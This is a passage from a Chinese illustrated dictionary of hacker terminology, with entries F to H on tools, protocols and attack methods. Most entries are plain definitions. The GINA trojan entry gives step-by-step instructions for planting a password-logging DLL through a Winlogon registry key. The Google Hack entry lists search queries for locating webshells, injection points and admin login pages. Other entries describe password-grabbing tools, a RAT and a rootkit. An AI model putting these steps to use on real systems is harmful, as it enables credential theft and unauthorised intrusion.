FinalData 是一款数据修复工具，主要用于恢复误删除，如图 F-6 所示。它使用非常简单，功能也很强大，与同类软件相比，在恢复效果上可以说是更胜一筹。特性功能包括：支持 FAT16/32 和 NTFS；恢复完全删除的数据和目录；恢复主引导扇区和 FAT 表损坏丢失的数据；恢复快速格式化的硬盘和软盘中的数据；恢复 CIH 破坏的数据；恢复硬盘损坏丢失的数据；通过网络远程控制数据恢复；恢复 CD-ROM 数据的功能；MPEG1/MPEG2 文件修复；Office 文件、E-mail 修复；还可以修复 Oracle 输出文件等等。


图 F-6

### Findpass 黑客工具

Findpass 是一款获取 Windows 用户账号和登录密码的工具，如图 F-7 所示。因为登录的域名和用户名是明文存储在 Winlogon 进程里的，Findpass 只要通过在 Winlogon 进程所占内存中查找用户登录信息，就可获取简单加密后的用户密码，进而破解获得明文密码。


图 F-7

需要注意的是，Findpass 只能获得所有图形登录的用户密码。也就是说，管理员必须经过终端服务或物理登录才能截取到密码。在入侵的过程中，得到管理员密码对于保住战果有着很大的作用，所以这个工具使用得非常广泛。

### FindPassword 黑客工具

FindPassword 用于在计算机中查找带有密码保护的文件，如图 F-8 所示，现版本支持 MS Word、Excel、Access、Outlook PST 文件及 ZIP 文档资料。


图 F-8

### Finger 操作系统及其相关

Finger 是 Unix 系统中用于查询用户情况的实用程序（DOS 系统也包含此命令）。Unix 系统保存了每个用户的详细资料，包括 E-mail 地址、账号、在现实生活中的真实姓名、登录时间等。当你用 Finger 命令查询时，系统会将相关资料一一显示在你的终端或计算机上。

```bash
finger [选项] [使用者] [用户@主机]
```

### FIN 包 黑客技术基础

即 FIN 数据包。FIN 是 TCP 包中常见的标志位，FIN 包在扫描时有很大作用，入侵的常用方法之一就是 FIN 探测：发送一个 FIN 包（或者是任何没有 ACK 或 SYN 标记的包）到目标的一个开放端口，然后等待回应，许多系统会返回一个 RESET（复位标记）。这种扫描通常只对 Unix 系统的 TCP/IP 栈有效，详情请见 TCP 词条。

《黑客术语图文辞典Ⅰ》→Fragrouter

### Firefox 应用程序

Firefox 全名为 Mozilla Firefox，是一个自由的、开放源码的浏览器，适用于 Windows、Linux 和 MacOS X 平台。它体积小、速度快，还有其它一些高级特征，主要有：标签式浏览，使上网冲浪更快；可以禁止弹出式窗口；自定制工具栏；更好的搜索特性，快速而方便的侧栏。

### Flash 脚本的跨站漏洞 攻击方法与行为

Flash 脚本的跨站漏洞是利用程序对用户提交的变量审查不严。Flash 跨站攻击是在 Flash 文件中利用多媒体标签插入脚本，在播放 Flash 文件的时候脚本被触发，然后通过脚本获取用户的敏感信息或者打开具有网页木马的 URL 页面，从而实现攻击。

### Form 黑客技术基础

Form 即表单，它是一般网页中的重要元素，专门用来传递数据给特定的程序。一般 Form 标签是成对出现的，以 `<Form>` 开始，以 `</Form>` 结束。

### Fragrouter 黑客工具

Fragrouter 是一个具有路由器功能的应用程序，它能够对攻击者发送的攻击流量进行分片处理之后，向攻击目标转发。Fragroute 能够截取、修改和重写向外发送的报文，实现大部分的 IDS 欺骗技术，包括 IP、TCP 层的数据包碎片以及数据包数据重叠等。

### Frame 黑客技术基础

Frame 即框架，是 HTML 重要元素。使用框架（Frame），你可以在浏览器窗口同时显示多个网页。每个 Frame 里设定一个网页，每个 Frame 里的网页相互独立。例如以下代码：

```html
<frameset cols="25%,75%">
```

将 Frameset 分成 2 列，第一列 25%，表示第一列的宽度是窗口宽度的 25%；第二列 75%，表示第二列的宽度是窗口宽度的 75%。

```html
<frame src="../asdocs/html_tutorials/a.html">
```

第一列中显示 a.html

```html
<frame src="../asdocs/html_tutorials/b.html">
```

第二列中显示 b.html。

```html
</frameset>
```

Frame 也可以用来挂马，即在网页中嵌入一个高度宽度都为 0 的网页，这个网页指向特定的网页木马页面，但在更多的时候，一般都用 `iframe` 标签来进行挂马。

### FrameBorder 黑客技术基础

FrameBorder 是 Frame 的常用属性，即设置或返回是否显示框架周围的边框。如果不希望出现框架的边框，请把该属性设置为 0。

```html
基本语法：
<iframe src="File__name" frameborder="value">

value 取值为 0 或 1，0 为不显示边框，1 为显示边框。
```

### FreeBSD 操作系统及其相关

FreeBSD 是一种著名的 Unix 操作系统，是由经过 BSD、386BSD 和 4.4BSD 发展而来的 Unix 的一个重要分支。它支持诸多架构的计算机，可以运行在 Intel x86 family 兼容处理器、DEC Alpha、Sun 微系统的 UltraSPARC、Itanium（IA-64）和 AMD64 处理器上。FreeBSD 源于 BSD——美国加州大学伯克利分校开发的 Unix 版本，它由来自世界各地的志愿者开发和维护，其标志是一个红色的小魔鬼。


### FreeDOS 操作系统及其相关

FreeDOS 工程（The FreeDOS Project）的目标是建立一个完整的、自由开放的并且与 MS-DOS 完全兼容的新型 DOS 操作系统，这个 DOS 系统属于全人类。FreeDOS 工程建立于 1994 年，由著名程序员 Jim 发起，并很快得到了众多使用者和程序开发者的响应。由于它是建立在著名的 GNU 协议下的自由软件，得到了来自世界各地众多优秀程序员的支持，现在一直在不断地发展着，而且参加的人越来越多，通过互联网联合起来朝着他们的目标去努力，充分体现了自由开放和团结的精神。

现在 FreeDOS 的版本号已经发展到 7.0，目前为它设计的 DOS 软件正在源源不断地推出和发展，不仅有各种外部命令，还有许多其它的增强程序和附件，而且质量既高也很实用，往往超过 MS-DOS 中的同类命令。

FreeDOS 与 MS-DOS 是完全兼容的，因此为它开发的软件基本上都可以直接移植过来在 MS-DOS 等 DOS 下使用。而我们国内外已经开发的绝大多数 DOS 软件也可以在它上面正常运行。它的功能也十分强大，比如同样支持 FAT32 分区和大硬盘，部分功能已经远远超过 MS-DOS。

不过，与 MS-DOS 等 DOS 一样，FreeDOS 是 16 位的，目前人们又开发了 32 位的 FreeDOS 操作系统，即内核为 32 位的 FreeDOS 版本 FreeDOS 32，并再次得到了众多的支持。虽然目前它还不是很成熟，但一直在发展着，而且毫无疑问，32 位的 FreeDOS 有着划时代的意义，标志着 DOS 逐渐向 32 位内核的方向发展了。

### FSO 脚本篇

FSO 全名为 File System Object，是微软 ASP 的一个对文件操作的组件，该控件可以对服务器进行读取、新建、修改、删除目录以及文件等操作。

ASP 脚本可以利用它对服务器上的文件进行操作，这极大地增加了 ASP 的功能，同时也是 ASP 木马所使用的主要技术。大部分的 ASP 木马都带有 FSO 组件，并利用 FSO 组件对服务器上的文件进行修改、删除等操作。正因为如此，许多服务器为了安全，删除了 FSO 或将 FSO 改名。

### FTP 协议｜黑客技术基础

FTP 全称为 File Transfer Protocol，即文件传输协议的简称，主要用于 Internet 上控制文件的双向传输。同时，它也是因特网上使用最广泛、也是最早的协议之一，主要在网站远程维护、资源共享等范畴。

FTP 的主要作用就是让用户连接上一个远程计算机（当然，这些计算机必须开启了 FTP 服务）查看远程计算机有哪些文件，然后把文件从远程计算机上拷到本地计算机，或把本地计算机的文件传送到远程计算机去。

尽管许多 WEB 服务（如网络硬盘）已经替代了 FTP 的大多数功能，FTP 仍然是通过 Internet 把文件从客户机复制到服务器上的一种途径。FTP 客户机可以给服务器发出命令来下载/上传文件、创建或改变服务器上的目录。

原来的 FTP 软件多是命令行操作，现在有了像 CuteFTP 这样的图形界面软件，使用 FTP 传输变得方便易学。由于 FTP 协议的传输速度比较快，许多下载类网站喜欢用 FTP 来实现。而且它可以设置为“匿名 FTP 服务器”，不需要身份认证即可连接。

另外，常见的 FTP 服务软件有微软 IIS 自带的 Microsoft FTP Service 与 Serv-U，如图 F-10 所示，是 IIS 中的 FTP 服务。


### FTP 反弹 攻击方法与行为

FTP 反弹是利用 FTP 协议的 PORT 命令将数据发送到第三方，这样就可以利用 FTP 服务器实现对其它机器的端口扫描和发送数据了。由于这种攻击的存在，所以许多 FTP 服务器一般都限制了 PORT 命令的 IP 地址为客户端 IP，且端口大于 1024。

另外，FTP 反弹在木马反弹技术中也有重要的用处，可以将反弹的连接 IP 保存在指定的 FTP 上，让木马自动读取，并连接其指定 IP。

### FTP 服务器 黑客技术基础

FTP 服务器就是有 FTP 服务软件并且支持 FTP 协议的服务器。FTP 协议是运行在不同的操作系统服务器之间建立的一个统一的文件传输协议。基于不同的操作系统有不同的 FTP 应用程序，而所有这些应用程序都遵守同一种协议，这样用户就可以把自己的文件传送给别人，或者从其他的用户环境中获得文件。

与大多数 Internet 服务一样，FTP 也是一个客户机/服务器系统。用户通过一个支持 FTP 协议的客户机程序，连接到远程主机上的 FTP 服务器程序。用户通过客户机程序向服务器程序发出命令，服务器程序执行用户所发出的命令，并将执行的结果返回到客户机。

比如说，用户发出一条命令，要求服务器向用户传送某一个文件的一份拷贝，服务器会响应这条命令，将指定文件传送至用户的机器上。客户机程序代表用户接收到这个文件，将其存放在用户目录中。


图 F-11

一般，装有 FTP 服务程序的主机都能称之为 FTP 服务器，如图 F-11 所示，为著名的 FTP 服务软件 Serv-U 的主界面。

### Furax 黑客工具

Furax 是一款功能很强大的反弹木马软件，如图 F-12 所示，其功能包括：桌面、视频捕捉、关闭主机、重新启动、注销用户、卸载服务端、关闭服务端、重启服务端、键盘记录（支持在线/离线记录）、进程管理、窗口管理、应用程序管理、支持正向/反向连接，支持更换图标等。


图 F-12

### G

### Gaim（应用程序）

Gaim（后改名 Pidgin）是一个即时通讯程序，如图 G-1 所示，主要用于 Linux 下，同样也适用于 Windows、BSD 和其他 Unix 系统。利用它可以使用多种即时通讯软件，如 AIM、ICQ、Jabber/XMPP、MSN Messenger、Yahoo!、Bonjour、Gadu-Gadu、IRC、Novell GroupWise Messenger、QQ、Lotus Sametime、SILC、SIMPLE 和 Zephyr。


图 G-1

### GCC（程序语言与开发）

GCC（GNU Compiler Collection）是由 GNU 之父 Stallman 所开发的 Linux 下的功能强大、性能优越的多平台编译器，是 GNU 的代表作品之一。GCC 是可以在多种硬件平台上编译出可执行程序的超级编译器，其执行效率比一般的编译器要高 20%~30%。目前可以编译的语言包括：C、C++、Objective-C、Fortran、Java 等，可以在其官方页面找到更加详细的信息。

GCC 是一个原本用于 Unix-like 系统下编程的编译器。不过，现在 GCC 也有了许多 Win32 下的移植版本，这要感谢 Internet 上众多程序员的共同努力。

### GDI（程序语言与开发）

GDI 是 Graphics Device Interface 的缩写，含义是图形设备接口，它的主要任务是负责系统与绘图程序之间的信息交换，处理所有 Windows 程序的图形输出。

在 Windows 操作系统下，绝大多数具备图形界面的应用程序都离不开 GDI，我们利用 GDI 所提供的众多函数就可以方便地在屏幕、打印机及其它输出设备上输出图形、文本等操作。GDI 的出现使程序员无需关心硬件设备及设备驱动，就可以将应用程序的输出转化为硬件设备上的输出，实现了程序开发者与硬件设备的隔离，大大方便了开发工作。

## GET 黑客技术基础

GET 是 HTTP 协议中传输数据的重要方法之一，可以通过 GET 方法在客户端与服务端之间进行参数传递，另一种主要的传递方法为 POST。GET 与 POST 主要的区别如下：

- GET 主要是用来从服务器上获得数据，而 POST 是用来向服务器上传递数据。
- GET 将表单中的数据按照 `variable=value` 的形式添加到 action 所指向的 URL 后面，使用 `?` 连接，各变量之间使用 `&` 连接；POST 是将表单中的数据放在 form 的数据体中，按变量和值对应方式传递到 action 所指向 URL。
- GET 是不安全的，因为传输过程中数据被放在请求 URL 中，可能被服务器、代理服务器或用户代理记录到日志中，也可能被用户直接在浏览器看到；POST 的操作对用户通常不可见。
- GET 传输的数据量小，主要受 URL 长度限制；POST 可以传输大量数据，所以上传文件通常使用 POST。
- GET 限制 Form 表单的数据集值必须为 ASCII 字符；POST 支持整个 ISO10646 字符集。
- GET 是 Form 的默认方法。

另外，GET 也是常用的 FTP 内部命令之一，语法为：`GET remote-file [local-file]`，用于将远程主机的文件传送到本地主机上。

## GETWEBShell 黑客工具

这是一款利用 SQL Server 的差异备份或 LOG 备份得到 WEBShell 的工具，如图 G-2 所示。其利用注入点在数据库中新建一个表，并插入一句话木马，再利用差异备份或 LOG 备份导出得到 WEBShell。


## GFI LANguard 应用程序

GFI LANguard 是一款 Windows 平台上的商业网络安全扫描器。其通过对 IP 网络进行扫描来发现运行中的计算机，并尝试收集主机上运行的操作系统版本和正在运行的应用程序。

它可以收集 Windows 主机上的 Service Pack 级别、缺少的安全更新、无线访问接入点、USB 设备、开放的共享、开放的端口、正在运行的服务和应用程序等信息、主要注册表项、弱密码、用户和组别以及其它更多信息。扫描结果保存在一份可自定义/查询的 HTML 报告文档中。


图 G-3

## gFTP 远程目录遍历漏洞 安全技术

gFTP 是一款基于 GNOME 的 FTP 客户端，支持 FTP、HTTP 和 SSH protocols，支持 FTP 站点直接 FXP，支持续传、多线程连接、文件拖放、缓存远程目录列表等功能。

gFTP 远程目录遍历漏洞是指 gFTP 对文件名缺少充分过滤，远程攻击者可以利用这个漏洞在系统上建立或覆盖任意文件。攻击者可以构建恶意 FTP 服务器，提交包含目录遍历字符的文件名给 gFTP 进行处理，这样就可在系统上建立文件或者覆盖文件。

## GHOST 应用程序，安全技术

GHOST 是 General Hardware Oriented Software Transfer 的缩写，可译为“面向通用型硬件系统传送器”，通常称为“克隆幽灵”，它是目前市面上应用最广泛的一种还原工具，由美国赛门铁克公司出品，是一款出色的硬盘备份还原工具。可以实现 FAT16、FAT32、NTFS、OS2 等多种硬盘分区格式的分区及硬盘的备份还原，俗称克隆软件。

GHOST 的备份还原是以硬盘的扇区为单位进行的，也就是说，可以将一个硬盘上的物理信息完整复制，而不仅仅是数据的简单复制。它能克隆系统中所有的文件，包括声音、动画、图像等，连磁盘碎片都可以复制。

GHOST 支持将分区或硬盘直接备份到一个扩展名为 .gho 的文件里（赛门铁克把这种文件称为镜像文件），也支持直接备份到另一个分区或硬盘里。

## Ghuol 捆绑检测工具 应用程序

Ghuol 是一款比较优秀的国产捆绑检测工具，如图 G-4 所示，能够查杀大部分国内外捆绑机所捆绑的文件，很大程度上保护了个人电脑的安全。


## GINA 操作系统及其相关

GINA 是一个图形化验证和认证动态链接库（DLL），它是一个可替代的、带有 Winlogon 执行的 DLL 部件，是用户和 Win2K 系统间的证人。确切地说，它是一个绝对公正的第三方，并不属于微软！

微软提供了一个默认的 msgina（在系统中它的存在形式是 msgina.dll），它显示的就是 Win2K 默认的登录窗体。考虑到公正和未来的应用扩展问题，管理员可以将这个默认 GINA 替换为自己的 GINA，比如可以制作一个生物识别的 GINA，基于人的指纹、视网膜，甚至声音来登录验证。

能替换成自己的 GINA，也就成了 GINA 木马存在的基础。为了能收集登录到 Win2K 的用户密码，攻击者只要做点手脚，换掉默认的 GINA 就可以了，但最好保持登录界面不要改变。

## GINA 木马 黑客技术基础

GINA 木马是专门记录 Windows 系统登录密码的，主要作用是在系统用户登录时，将用户登录的名字、密码等记录到文件中去（基本原理请见 GINA 词条）。

下面是安装 DLL 木马的具体操作方法（以最早的木马 GINA-fakeGINA 为例）：

- 将 fakegina.dll 复制到远程 Win2K 主机的 system32 目录下。
- 在其注册表中加入 `SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL=fakegina.dll` 这个键值，含义就是在 Win2K 用户登录时加载我们的木马 GINA-fakegina.dll，以取代原来的 msgina.dll。
- 重启机器，可以用 reboot.exe、shutdown.exe 等工具，也可以对其拒绝服务攻击使其重启，这样做的目的就是让所有需要登录到这个机器上的用户使用上替换的木马 GINA，使他们在感觉不到任何异常的情况下泄露其密码。
- 等待系统重启后，在系统的 system32 目录下发现多出来一个 passlist.txt 文件，这里面记录的就是刚刚登录的用户名和明文密码。

## Gizmo 应用程序

Gizmo 是一款语音通话软件，它与 Skype 的最大不同之处就是其拥有一套开源的 API 可供任何人使用，可实现开发自己的 Gizmo。其与免费的语音邮件服务相类似，并有一个地图显示你的通话人所在位置，而且还可以在 Gizmo 客户区以外的地方进行电话呼叫。

## GlobalSCAPE Secure FTP Server 应用程序

GlobalSCAPE Secure FTP Server 是一款灵活可靠的 FTP 服务程序，其在处理客户命令时存在漏洞，如果攻击者提供了超长参数的话就可能导致服务器崩溃。

## GMP 大数库 特定名称

GMP 大数库是 GNU 项目的一部分，诞生于 1991 年。作为一个任意精度的大整数运算库，它包括了任意精度的带符号整数、有理数、浮点数的各种基本运算操作。它是一个 C 语言的库，但是官方提供了 C++ 的包装类，主要的应用方向是密码学、网络安全、代数系统、计算科学等。GMP 库的运行速度非常快，官方网站上称其为地球上最快的大数库，但是 GMP 库所提供的只是数学运算功能，并没有密码学相关的高级功能。

## GMT 特定名称

GMT（Greenwich Mean Time）就是格林威治标准时间的英文缩写。格林威治是伦敦泰晤士河南岸的一个地方。从 19 世纪开始，因为世界各国来往频繁，而欧洲大陆、美洲大陆和亚洲大陆都有各自的时区。为了避免混乱，各国的代表于 1884 年在美国华盛顿召开了国际大会，通过协议选出伦敦的格林威治，作为全球时间的中心点，格林威治标准时间因而诞生。

另外，一些称为有 GMT 功能的腕表，说的就是腕表拥有其中的小时表盘，可以显示 GMT 时间。

## GNOME 操作系统及其相关

GNOME 即 GNU 网络对象模型环境（The GNU Network Object Model Environment），是 GNU 计划的一部分，也是开放源码运动的一个重要组成部分。它与 KDE 一样，是一种让使用者容易操作和设定电脑的环境。GNOME 的目标是基于自由软件，为 Unix 或者类 Unix 操作系统构造一个功能完善、操作简单以及界面友好的桌面环境，它是 GNU 计划的正式桌面。

尽管最初是 GNU/Linux 的桌面，但 GNOME 已经运行在大多数类 Unix 系统（如 BSD 变体、AIX、IRIX、HP-UX），并被 Sun Microsystems 公司采纳为 Solaris 平台的标准桌面，取代了过时的 CDE。

GNOME 也移植到 Cygwin，使其能运行于 Microsoft Windows，它还被众多 **LiveCD** Linux 发行版所使用，如 Gnoppix、Morphix 和 Ubuntu。

## GNU 操作系统及其相关

GNU 计划，又称革奴计划，是由 Richard Stallman 在 1983 年 9 月 27 日公开发起的，它的目标是创建一套完全自由的操作系统。Richard Stallman 最早是在 net.Unix-wizards 新闻组上公布该消息，并附带一份《GNU 宣言》等解释为何发起该计划的文章，其中一个理由就是要“重现当年软件界合作互助的团结精神”。

Stallman 认为自由软件理念产生的结果之一将是许多自由软件程序组合在一起。GNU 就是这种理念的一个例子，它于 1996 年 8 月随着一个由 GNU Hurd 和 Mach 组成的内核诞生而变成了一个完整的操作系统。

为保证 GNU 软件可以自由地“使用、复制、修改和发布”，GNU 通用公共许可证（GNU General Public License, GPL）诞生了，其“在禁止其他人添加任何限制的情况下授权所有权利给任何人”的协议条款，被称为“反版权”（或称 Copyleft）的概念。

GNU 是“GNU's Not Unix”的缩写。Stallman 宣布 GNU 应当发音为 Guh-NOO，以避免与 New 这个单词混淆（注：Gnu 在英文中原意为非洲牛羚，如图 G-5 所示，发音与 New 相同）。


由于 GNU 将要实现 Unix 系统的接口标准，因此 GNU 计划可以分别开发不同的操作系统部件。GNU 计划采用了部分当时已经可自由使用的软件，例如 TeX 排版系统和 X Window 视窗系统等。不过 GNU 计划也开发了大批其他的自由软件。Linux 下很多优秀的软件都来自 GNU 计划，可以这么说，如果没有 GNU 计划也就没有了 Linux 的今天，由此可见 GNU 计划的重要性。

## GNU Privacy Guard 操作系统及其相关

GNU Privacy Guard（GNUPG，GNU 隐私卫士）是用于安全通信的工具，它是对 PGP（Pretty Good Privacy，一种广受欢迎的加密程序）加密技术的完全和免费的代替。使用 GNUPG，你可以给你的数据和通信加密，并可以使用数码签名（digitally signing）来验证你的通信。GNUPG 还能够解密及校验 PGP5.x。

因为 GNUPG 和其它加密标准兼容，你的安全通信完全可以与其它操作系统（如 Windows 和 Macintosh）上的电子邮件程序兼容。

## GNUPG 安全技术

GNUPG 使用公钥加密术（public key cryptography）来为用户提供安全的数据交换。在公钥加密术方案中，你生成两把钥匙：公钥和私钥。你可以和通信方或钥匙服务器互换公钥，但决不应出示你的私钥。

加密依赖于对钥匙的使用。在传统的或对称的加密术中，传输双方都有相同的钥匙，他们可以使用这把相同的钥匙来给彼此的传输解密。在公钥加密术中，两把钥匙并存：一把公钥，一把私钥。个人或组织把他们的私钥保密，但是公布他们的公钥。用公钥加密的数据只能用私钥才能解密；用私钥加密的数据只能用公钥才能解密。

## GNU 工具集：程序语言与开发

GNU 计划所使用的工具集，包括：GNU 的 make、GCC 编译器和 GDB 调试工具，用于程序语言与开发。

## Googkle：特定名称

一个著名的恶意网站的名称，其是因 Google 的知名度而注册的相似域名。据芬兰反病毒公司 F-Secure 揭露，这个恶意站点的域名叫 Googkle.com，该网站上布满了各种木马注入机、下载机、后门和间谍软件。任何一个毫无防备而误入该站点的用户将会冒很大的风险：当 Googkle.com 被浏览器打开之后，两个弹出式窗口会立即启动，同时重定向到两个具有恶意脚本的第三方站点。其中一个站点是 ntsearch.com，它会在用户机器上下载并运行一个叫“pop.com”的文件；而另一个站点是 toolbarpartner.com，它会下载并运行一个叫“ddfs.chm”的文件。这两个文件都是通过系统漏洞被下载的，同时它们本身也隐藏着能够运行嵌入式可执行代码的漏洞。其中那个叫 toolbarpartner.com 的网站会利用漏洞下载一个 pic10.jpg 文件，而这个文件实际上是一个可执行文件，它会替换掉 Windows Media Player 的执行程序。

## Google：黑客技术基础

Google 是互联网上最著名、最大的搜索引擎，其网址是 www.google.com，它让用户能够访问一个包含超过 80 亿个网址的索引。Google 坚持不懈地对其搜索功能进行革新，始终保持着自己在搜索领域的领先地位。其创建于 1998 年 9 月，创始人为 Larry Page 和 Sergey Brin。

“Googol”是一个数学名词，表示一个 1 后面跟着 100 个零。这个词汇是由美国数学家 Edward Kasner 的外甥 Milton Sirotta 创造的，随后通过 Kasner 和 James Newman 合著的《Mathematics and the Imagination》一书广为流传。另外，Google 也是学习技术的好老师，大部分的常规问题都能通过它的搜索得到答案。


## Google Hack 操作系统及其相关

Google Hack 是指使用 Google 中的一些语法获取更多有利于攻击的信息。由于 Google 强大的搜索功能，所以许多网站中安全性很脆弱的页面都会被一一搜索出来。而踩点在入侵当中起着决定性的作用，也是决定入侵成败的最重要因素，它占据了整个入侵过程中 90% 以上的时间。

Google Hack 技术说白了就是结合 Google 的语法和一些关键字来对网站进行渗透，下面简单地讲解一些 Google 语法。

- **intext:关键字**：把网页正文中某个关键字作为搜索条件，然后搜索全世界网页正文中含有这些关键字的网页。例如，`intext:验证码 4800`。
- **intitle:关键字**：把网页标题中某个关键字作为搜索条件，然后搜索全世界网页标题中含有这些关键字的网页。还有一个 `allintitle:关键字`，功能相同。比如搜索网站后台，输入 `intitle:后台登录` 或 `allintitle:后台登录`。
- **cache:关键字**：搜索含有关键字内容的缓存。比如搜索北京大学网站服务器中缓存的内容，就可以输入：`cache:pku.edu.cn`。
- **define:关键字**：搜索关键字的定义。比如查找 html 的定义，即输入：`define:html`。
- **filetype:文件名.后缀名**：搜索特定的文件。比如要搜索信息安全方面的论文，输入“信息安全论文 filetype:doc”就可以找到了。
- **info:关键字**：这个语法用于搜索指定站点的一些基本信息。比如搜索北京大学网站的一些信息，输入 `info:pku.edu.cn`。
- **inurl:关键字**：搜索含有关键字的 URL 地址。这个语法非常重要，使用得也是最为频繁。我们还可以使用 `allinurl` 来更加精确地定位 URL 地址。比如搜索含有 movie 的 URL 地址，输入“`inurl:movie`”即可，那么找出来的大部分是电影网站。
- **link:关键字**：查找与关键字做了链接的 URL 地址，利用它我们可能搜索到一些敏感信息。
- **site:域名**：返回域名中所有的 URL 地址，它可以探测网站的拓扑结构，也是非常重要、使用非常频繁。比如搜索北京大学所有学院的 URL 地址，输入“学院 `site:pku.edu.cn`”就可以搜索到它所有的学院。
- **related:URL**：搜索与指定 URL 相关的页面。比如搜索与北京大学相关的网页，输入关键字“**related:pku.edu.cn**”即可得到。

另外还有以下几个语法：

- **stocks**：搜索有关一家公司股票市场信息。
- **insubject**：搜索 Google 组的标题行。
- **msgid**：搜索识别新闻组帖子的 Google 组信息标识符和字符串。
- **group**：搜索 Google 组的题目。
- **author**：搜索新闻组帖子的作者。
- **bphonebook**：仅搜索商业电话号码簿。
- **rphonebook**：仅搜索住宅电话号码簿。
- **phonebook**：搜索商业或者住宅电话号码簿。
- **daterange**：搜索某个日期范围内 Google 做索引的网页。
- **inanchor**：搜索一个 HTML 标记中的一个链接的文本表现形式。

不过在搜索时需要注意以下几点：

- Google 搜索多个关键字时，它们之间用空格间隔，空格表示逻辑与操作。
- Google 中“—”表示逻辑非操作。如 A-C 表示搜索有 A 但没 C 的网页。
- Google 中 OR 表示逻辑或。如 A OR B 表示搜索含有 A 的网页、B 的网页，和同时含 A 和 B 的网页。
- Google 中的精确搜索用双引号“”将关键字包括起来。

以上这些就是 Google 的一些基本语法，要对某个站点进行渗透就要利用上面的语法来构造出一些精美的语句，从而找出站点的一些敏感信息。下面我们就来简单体验一下 Google Hack 技术所带来的方便吧！

### 一、查找别人留下的 WebShell

很多人在入侵网站得到 WebShell 后，并没有把网页木马的一些关键字去掉，而是保留了原样，这使我们可以利用 Google 强大的搜索能力，通过搜索木马的关键字找出那些 WebShell 来。比如很多木马都有“绝对的路径、输入保存的路径、输入文件的内容”等关键字。

```
绝对的路径 输入保存的路径 输入文件的内容 inurl:diy.asp
```

其实这类攻击就是利用一些默认的信息去查找，至于其他木马的关键字大家可以自己去收集，然后自己去构造语句进行搜索。

### 二、搜索存在注入漏洞的站点

结合 Google Hack 技术可以很轻易地达到批量注入的效果，不过这里的注入还需要一个注入工具。对于批量搜索注入方面，我觉得还是用啊 D 注入工具。来配合比较好。

## 三、查找特定网站的注入漏洞

我们可以利用 Google Hack 技术来查找特定网站的漏洞，比如要渗透 abcdefg.com 这个网站，在 Google 中输入 `site:abcdefg.com inurl:php?id=` 后就可以看到该网站中的相关信息。

## 四、查找后台

以 xx.com 为目标，当需要查找它登录页面时输入：

```text
site:xx.com intext:管理
site:xx.com inurl:login
site:xx.com intitle:后台
```

## Google Talk｜黑客技术基础

Google Talk 是 Google 推出的 IM 工具，如图 G-6 所示，除了具有 IM 功能外，还加上了 VOIP 功能，界面清新大方，可直接链接 Gmail，接收查看邮件。


## GPEDIT.MSC｜操作系统及其相关

GPEDIT.MSC，组策略的系统文件，详情请见组策略词条。

## GPL｜程序语言与开发

GNU 通用公共许可证（简称为 GPL），是由自由软件基金会发行的用于计算机软件的许可证，最初由 Richard Stallman 为 GNU 计划而撰写。目前大多数的 GNU 程序和超过半数的自由软件使用此许可证，此许可证最新版本为“版本 2”，1991 年发布。

## GRANT 命令｜数据库

GRANT 是数据库中的常见命令，允许对象的创建者给某用户、某组或所有用户（PUBLIC）某些特定的权限。对象创建后，除了创建者外，除非创建者赋予（GRANT）权限，其他人是没有访问对象的权限的。一旦用户有某对象的权限，他就可以使用那个特权，不需要创建者赋予（GRANT）对象的权限，创建者自动拥有对象的所有权限，包括删除它的权限。

## GRUB｜操作系统及其相关

GRUB 是一个多重操作系统启动管理器，GNU GRUB 是由 GRUB（GRand Unified Bootloader）派生而来。GRUB 最初由 Erich Stefan Boleyn 设计和应用，系统启动引导管理器是在计算机启动后运行的第一个程序，它是用来负责加载、传输控制到操作系统的内核。一旦把内核挂载，系统引导管理器的任务就算完成，并退出，由系统引导其他部分，比如系统的初始化及启动过程则完全由内核来控制完成。GRUB 既能引导 Linux，同时也能引导 Windows。

## GTK+｜程序语言与开发

GTK+ 是一个用于创建图形用户界面的多平台工具，具有 Motif 的外观和风格。它包含有基本的控件和一些很复杂的控件，例如文件选择控件和颜色选择控件。

GTK+ 最初是为 GIMP（GNU 图形处理程序）发行的控件集，随着它的不断扩展，直到今天被用于大量的应用程序当中，并作为 GNOME 桌面工程的工具。

## Guests 组｜操作系统及其相关

Windows 系统内置的用户组，该组的用户无法修改操作系统的设置、注册表或用户资料，它只能运行经过验证的应用程序或创建、修改本地组，操作系统对它的限制更多。Windows 的操作系统大多都预置了一个 Guest 用户，方便别的主机访问，这个用户就隶属于 Guests 组，如图 G-7 所示。


图 G-7

## GUI｜特定名称

GUI 是 Graphical User Interface 的简称，即图形用户接口，读作“goo-ee”。一般来说，GUI 就是屏幕产品的视觉体验和互动操作部分。

准确地说，GUI 是一种结合计算机科学、美学、心理学、行为学，及各商业领域需求分析的人机系统工程，强调人—机—环境三者作为一个系统进行总体设计。

这种面向客户的系统工程设计，其目的是优化产品的性能，使操作更人性化，减轻使用者的认知负担，使其更适合用户的操作需求，直接提升产品的市场竞争力。

我们常见的许多在命令行下运行的程序都逐渐转化为 GUI 界面，就是为了更好地与用户交互，并方便使用。

## GYSI——黑客工具

GYSI 是一款注入工具。如果目标主机是 SA 权限且可以使用 `xp_cmdShell` 扩展，就可以使用 GYSI 远程执行 DOS 命令并返回结果，类似于 NB2 的 commander 命令执行器和 TreeList。


## HackerDefender——黑客工具

HackerDefender（简称 hxdef）是一个适用于 Windows NT 4.0、Windows 2000 以及 Windows XP 操作系统的 `ROOTKIT`，也是使用范围最广的 ROOTKIT 之一。其主要代码由 Delphi 6 完成，新的功能使用汇编书写，驱动代码由 C 完成。

程序的主要功能是在所有运行的进程中重新分割内存，重写一些基本的模块改变进程的状态，它几乎能够改写所有不影响系统稳定和正在运行中的进程。程序能够隐藏文件、进程、系统服务、系统驱动、注册表的键值和键、开放端口以及虚构可用磁盘空间，同时也在内存中伪装它所做的改动。

## Hacker's door——黑客工具

Hacker's door 是一个国产后门程序，如图 H-1 所示，其包括：服务器端文件 hkdoordll.dll（应用于目标机器上的软件）、命令行客户端文件 hdclient.exe、nc.exe（控制目标机器的软件）以及配置程序 hdconfig.exe。

Hacker's door 的隐蔽性很强，其服务端只有一个 DLL 文件，可随着某些免费软件的安装进入 Windows 系统，进而感染系统文件。被感染的系统文件大小和日期一般都不会改变，并且它只是重用系统进程开的任意一个端口，如 80 端口、135 端口、139 端口等，因而很难被发现。一般受感染的是安装了 Windows 2000 及以上操作系统的计算机。


## HackerSmacker｜黑客工具

HackerSmacker 是一个个人用户防火墙，如图 H-2 所示，小巧简单易用，耗用资源小，包含多种预设安全等级，具有弹出式窗口的阻挡和网络监控等功能，而且可以自定义安全级别。


图 H-2

## HASH｜安全技术

